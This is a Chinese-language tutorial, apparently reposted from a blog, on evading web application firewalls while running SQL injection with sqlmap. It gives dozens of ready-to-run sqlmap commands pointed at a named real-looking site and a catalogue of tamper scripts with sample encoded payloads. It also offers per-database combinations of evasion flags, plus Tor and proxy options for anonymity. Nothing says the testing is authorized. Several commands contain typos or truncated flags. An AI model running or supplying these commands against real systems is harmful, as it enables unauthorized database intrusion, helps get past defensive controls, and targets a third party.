 ## 使用sqlmap 绕过防火墙进行注入测试

http://www.91ri.org/6775.html
0x00 前言
   现在的网络环境往往是WAF/IPS/IDS保护着Web 服务器等等，这种保护措施往往会过滤挡住我们的SQL注入查询链接，甚至封锁我们的主机IP，所以这个时候，我们就要考虑怎样进行绕过，达到注入的目标。因为现在WAF/IPS/IDS都把sqlmap 列入黑名单了，呵呵！但是本文基于sqlmap 进行绕过注入测试，介绍至今仍然实用有效的技巧，以下策略在特定的环境能够成功绕过，具体是否绕过，请仔细查看输出的信息。

0x01 确认WAF
     首先我们判断该Web 服务器是否被WAF/IPS/IDS保护着。这点很容易实现，因为我们在漏扫或者使用专门工具来检测是否有WAF，这个检测，在nmap 的NSE，或者WVS的策略或者APPSCAN的策略中都有，我们可以利用这些来判断。在此我们，也介绍使用sqlmap 进行检测是否有WAF/IPS/IDS

`root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --thread 10 --identify-waf#首选`

`root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --thread 10  f--check-waf#备选`

0x02 使用参数进行绕过
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --random-agent -v 2 #使用任意浏览器进行绕过，尤其是在WAF配置不当的时候

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --hpp -v 3#使用HTTP 参数污染进行绕过，尤其是在ASP.NET/IIS 平台上

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --delay=3.5 --time-sec=60 #使用长的延时来避免触发WAF的机制，这方式比较耗时

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --proxy=211.211.211.211:8080 --proxy-cred=211:985#使用代理进行注入

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --ignore-proxy#禁止使用系统的代理，直接连接进行注入

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --flush-session#清空会话，重构注入

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --hex#或者使用参数 --no-cast ，进行字符码转换

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --mobile #对移动端的服务器进行注入

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --tor # 匿名注入

0x03 使用脚本介绍
1 使用格式：
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --tamper=A.py,B.py#脚本A，脚本B 

2 脚本总类
01 apostrophemask.py#用utf8代替引号；Example: ("1 AND '1'='1") '1 AND %EF%BC%871%EF%BC%87=%EF%BC%871'

02 equaltolike.py#MSSQL * SQLite中like 代替等号；Example:  Input: SELECT * FROM users WHERE id=1 ；Output: SELECT * FROM users WHERE id LIKE 1

03 greatest.py#MySQL中绕过过滤’>’ ,用GREATEST替换大于号；Example: ('1 AND A > B') '1 AND GREATEST(A,B+1)=A'

04 space2hash.py#空格替换为#号 随机字符串 以及换行符；Input: 1 AND 9227=9227；Output: 1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227

05 apostrophenullencode.py#MySQL 4, 5.0 and 5.5，Oracle 10g，PostgreSQL绕过过滤双引号，替换字符和双引号；

06 halfversionedmorekeywords.py#当数据库为mysql时绕过防火墙，每个关键字之前添加mysql版本评论；

07 space2morehash.py#MySQL中空格替换为 #号 以及更多随机字符串 换行符；

08 appendnullbyte.py#Microsoft Access在有效负荷结束位置加载零字节字符编码；Example: ('1 AND 1=1') '1 AND 1=1%00'

09 ifnull2ifisnull.py#MySQL，SQLite (possibly)，SAP MaxDB绕过对 IFNULL 过滤。 替换类似’IFNULL(A, B)’为’IF(ISNULL(A), B, A)’

10 space2mssqlblank.py(mssql)#mssql空格替换为其它空符号

11base64encode.py#用base64编码j Example: ("1' AND SLEEP(5)#") 'MScgQU5EIFNMRUVQKDUpIw==' Requirement: all

12 space2mssqlhash.py#mssql查询中替换空格

13 modsecurityversioned.py#(mysql中过滤空格，包含完整的查询版本注释;Example: ('1 AND 2>1--') '1 /*!30874AND 2>1*/--'

14 space2mysqlblank.py#(mysql中空格替换其它空白符号

15 between.py#MS SQL 2005，MySQL 4, 5.0 and 5.5 * Oracle 10g * PostgreSQL 8.3, 8.4, 9.0中用between替换大于号（>）

16 space2mysqldash.py#MySQL，MSSQL替换空格字符（”）（’ – ‘）后跟一个破折号注释一个新行（’ n’）

17 multiplespaces.py#围绕SQL关键字添加多个空格；Example: ('1 UNION SELECT foobar') '1 UNION SELECT foobar'

18 space2plus.py#用+替换空格；Example: ('SELECT id FROM users') 'SELECT+id+FROM+users'

19 bluecoat.py#MySQL 5.1, SGOS代替空格字符后与一个有效的随机空白字符的SQL语句。 然后替换=为like

20 nonrecursivereplacement.py#双重查询语句。取代predefined SQL关键字with表示 suitable for替代（例如 .replace（“SELECT”、””)） filters

21 space2randomblank.py#代替空格字符（“”）从一个随机的空白字符可选字符的有效集

22 sp_password.py#追加sp_password’从DBMS日志的自动模糊处理的26 有效载荷的末尾

23 chardoubleencode.py#双url编码(不处理以编码的)

24 unionalltounion.py#替换UNION ALL SELECT UNION SELECT；Example: ('-1 UNION ALL SELECT') '-1 UNION SELECT'

25 charencode.py#Microsoft SQL Server 2005，MySQL 4, 5.0 and 5.5，Oracle 10g，PostgreSQL 8.3, 8.4, 9.0url编码；

26 randomcase.py#Microsoft SQL Server 2005，MySQL 4, 5.0 and 5.5，Oracle 10g，PostgreSQL 8.3, 8.4, 9.0中随机大小写

27 unmagicquotes.py#宽字符绕过 GPC addslashes；Example: * Input: 1′ AND 1=1 * Output: 1%bf%27 AND 1=1–%20

28 randomcomments.py#用/**/分割sql关键字；Example:‘INSERT’ becomes ‘IN//S//ERT’

29 charunicodeencode.py#ASP，ASP.NET中字符串 unicode 编码；

30 securesphere.py#追加特制的字符串；Example: ('1 AND 1=1') "1 AND 1=1 and '0having'='0having'"

31 versionedmorekeywords.py#MySQL >= 5.1.13注释绕过

32 space2comment.py#Replaces space character (‘ ‘) with comments ‘/**/’

33 halfversionedmorekeywords.py#MySQL < 5.1中关键字前加注释

 

0x04脚本参数组合策略绕过
1 mysql绕过：
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --random-agent -v 2 -delay=3.5 --tamper=space2hash.py,modsecurityversioned.py

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --random-agent --hpp  --tamper=space2mysqldash.p,versionedmorekeywords.py

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  -delay=3.5  ----user-agent=" Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/534.24 (KHTML, like Gecko) Chrome/38.0.696.12 Safari/534.24” --tamper=apostrophemask.py,equaltolike.py

备注：这些组合策略可以根据注入的反馈信息，及时调整组合策略

2 MSSQL：
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  -delay=3.5  ----user-agent=" Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/534.24 (KHTML, like Gecko) Chrome/38.0.696.12 Safari/534.24” --tamper=randomcase.py,charencode.py

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --hpp --tamper=space2comment.py,randomcase.py
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --time-sec=120  --tamper=space2mssqlblank.py,securesphere.py

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --tamper=unionalltounion.py,base64encode.p

3 ms access:
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --random-agent  --tamper=appendnullbyte.py,space2plus.py

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --random-agent --hpp  --tamper=chardoubleencode.py

4 Oracle：
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=5 --random-agent --hpp --tamper=unmagicquotes.py,unionalltounion.py

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=5--user-agent =“Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.0” --hpp --tamper=charunicodeencode.py,chardoubleencode.py

5 建议：
      因为WAF可能采用白名单规则，所以对于选择哪种策略，重点是根据-v 3 提示的信息进行判断，可以抓取主流的浏览器的user-agent ,s适当的延时，加上注入字符转换---大小写、空格、字符串、注释、加密等等方式

      鉴于参数和32种脚本，在我们平时的注入，这些通过不同的多重组合来进行测试，这个测试或者比较耗时

ps：转载来源http://blog.csdn.net/qq_29277155/article/details/51193071，感谢作者的分享
